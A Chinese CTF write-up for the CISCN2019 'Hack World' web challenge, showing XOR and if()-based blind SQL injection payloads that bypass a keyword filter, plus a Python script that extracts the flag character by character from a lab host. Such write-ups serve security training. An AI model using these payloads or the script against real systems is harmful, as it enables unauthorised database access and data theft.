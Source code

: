 这题质量太高了，将很多php知识综合，确实确实很难了，值得回味



## [CISCN2019 华北赛区 Day2 Web1]Hack World



![image-20220724162707744](D:\Typora\note\CTF\web\ciscn.assets\image-20220724162707744.png)

随意fuzz一下，发现过滤了很多很多东西
`单双引号，||，&，分号，union，#基本扼杀了所有拼接查询的路`
所以就只能用一种不需要拼接的办法

#### 第一种

异或
`1^1=0  1^1^1=1`
payload:`1^(ascii(substr((select(flag)from(flag)),1,1))=102)^1`
脚本

```py
import requests
import time

url='http://ce2d5a60-c4be-4088-87f8-7419722a4e48.node4.buuoj.cn:81/index.php'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
flag=''
for i in range(1,100):
    for j in range(32,128):
        data={"id":f"1^(ascii(substr((select(flag)from(flag)),{i},1))={j})^1"}
        r=requests.post(url=url,data=data)
        time.sleep(0.1) #buu对访问速度有限制，需要慢一点
        #print(data)
        if("Hello, glzjin wants a girlfriend."in r.text):
            flag+=chr(j)
            print(flag)
            if chr(j)=='}':
                exit()
            break
```

#### 第二种

实际上类似第一种，不过更好理解

payload: `if(ascii(substr((select(flag)from(flag)),1,1))=102,1,0)`
if成立则返回1，反之则是0

脚本就上面稍微改改就好



## [CISCN2019 华东南赛区]Web11

